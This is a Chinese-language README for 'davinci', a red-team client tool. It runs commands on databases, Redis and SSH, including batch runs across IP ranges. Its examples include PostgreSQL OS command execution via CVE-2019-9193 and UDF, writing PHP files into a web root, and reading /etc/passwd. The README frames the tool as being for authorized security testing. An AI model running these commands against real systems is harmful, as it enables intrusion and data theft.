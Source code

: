 # davinci

## 免责声明

本程序应仅用于授权的安全测试与研究目的。
由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者负责，工具作者不为此承担任何责任。

## 介绍

davinci是一个多组件客户端命令行工具，利用golang的特性，可轻易编译出在各类操作系统和架构下的可执行文件，在各种环境下使用。

目前内置了下列组件的常见利用方式，包括信息收集、非交互式执行、交互式执行等：
- MySQL
- PostgreSQL
- Clickhouse
- GaussDB
- MongoDB
- Redis
- SSH
- Elasticsearch



## 编译方式

```
go env -w GOOS=$os
go env -w GOARCH=$arch
go build -ldflags "-w -s" -o bin/$name davinci.go
```

对于常见的平台已提供powershell脚本执行编译使用：
```
.\win_amd64.ps1
.\linux_amd64.ps1
```

你也可以直接使用release中编译好的可执行文件。



## 使用方式

```bash
# ./davinci --help
multi-component client,include  database, middleware, queue, etc.
used for red team simulation scenarios

Usage:
  davinci [command]

Available Commands:
  batch       batch execute
  clickhouse  clickhouse client
  completion  Generate the autocompletion script for the specified shell
  es          elasticsearch client
  gaussdb     gaussdb client
  help        Help about any command
  mongo       mongo client
  mysql       mysql client
  pgsql       pgsql client
  redis       redis client
  ssh         ssh client

Flags:
  -h, --help     help for davinci
      --no-log   not log output to file
      --silent   close info level output

Use "davinci [command] --help" for more information about a command.
```

每个组件均作为一个子命令来使用，几乎每个组件都至少会提供三种使用方式：
- exec : 非交互式执行单条命令
- shell : 进入交互式命令执行
- auto_gather: 自动化信息收集，实际上就是批量执行一组命令

注意：上述的"命令"是指组件自身的命令，例如对于MySQL来说是SQL，而对于SSH来说则是系统命令。

针对不同组件会提供特定的使用方式，包括但不限于：系统命令执行、文件读写等
```bash
Example:
  davinci pgsql exec        -H 192.168.1.2 -P 5432 -u postgres -p 123456 -c "select user;"
  davinci pgsql shell       -H 192.168.1.2 -P 5432 -u postgres -p 123456
  davinci pgsql auto_gather -H 192.168.1.2 -P 5432 -u postgres -p 123456
  davinci pgsql osshell     -H 192.168.1.2 -P 5432 -u postgres -p 123456 --cve-2019-9193
  davinci pgsql osshell     -H 192.168.1.2 -P 5432 -u postgres -p 123456 --cve-2019-9193 --no-interactive -c "whoami"
  davinci pgsql osshell     -H 192.168.1.2 -P 5432 -u postgres -p 123456 --udf
  davinci pgsql osshell     -H 192.168.1.2 -P 5432 -u postgres -p 123456 --udf --no-interactive -c "whoami"
  davinci pgsql osshell     -H 192.168.1.2 -P 5432 -u postgres -p 123456 --ssl_passpharse -c "whoami"
  davinci pgsql writefile   -H 192.168.1.2 -P 5432 -u postgres -p 123456 --lo_export -s ./eval.php -t /var/www/html/1.php
  davinci pgsql writefile   -H 192.168.1.2 -P 5432 -u postgres -p 123456 --copy_to -C "<?php phpinfo(); ?>" -t /var/www/html/1.php
  davinci pgsql readfile    -H 192.168.1.2 -P 5432 -u postgres -p 123456 --lo_import -t /etc/passwd
  davinci pgsql readfile    -H 192.168.1.2 -P 5432 -u postgres -p 123456 --pg_read -t /etc/passwd
  davinci pgsql readfile    -H 192.168.1.2 -P 5432 -u postgres -p 123456 --copy_from -t /etc/passwd --hex
  davinci pgsql mkdir       -H 192.168.1.2 -P 5432 -u postgres -p 123456 -t /etc/pg_dir
  davinci pgsql lsdir       -H 192.168.1.2 -P 5432 -u postgres -p 123456 -t /
```

各个组件的详细使用方式以及支持的功能，请参考wiki

此外，工具还提供了一个批量执行的功能
```bash
# ./davinci batch --help
batch execute:
  - export:      export execute config template
  - exec  :      batch execute

Usage:
  davinci batch [export|exec] [flags]

Flags:
  -b, --b64config string   the config base64 encode
  -f, --file string        config file (default ".davinci_batch.json")
  -h, --help               help for batch

Global Flags:
      --no-log   not log output to file
      --silent   close info level output
```
你可以通过`./davinci batch export`先导出一个模板，然后基于模板来制定批量执行的计划：
```bash
[
    {
        "cmd_type": "ssh",
        "hosts": [
            "127.0.0.1",
            "192.168.83.1/24",
            "192.168.83.1-20"
        ],
        "port": 22,
        "user": "root",
        "passwd": "123456",
        "cmds": [
            "ls -al /",
            "ifconfig"
        ]
    },
    {
        "cmd_type": "redis",
        "hosts": [
            "127.0.0.1"
        ],
        "port": 6379,
        "cmds": [
            "dbsize"
        ]
    }
] 
```
目前执行批量执行的组件包括：ssh、mysql、pgsql、gaussdb、clickhouse、redis、mongo
```bash
./davinci batch exec -f .davinci_batch-1.json
```



## 输出记录

默认情况下，会将所有输出记录到日志文件: `davinci_{y}-{m}-{d}.log`（除了交互式的ssh）

要关闭日志记录只需要使用`--no-log`选项即可。

此外，默认输出级别是info级别，会包含执行过程的详细信息，可以使用`--silent`选项来关闭详细输出，仅输出Warn级别以上的信息。


## todo

- oracle
- sqlserver
- etcd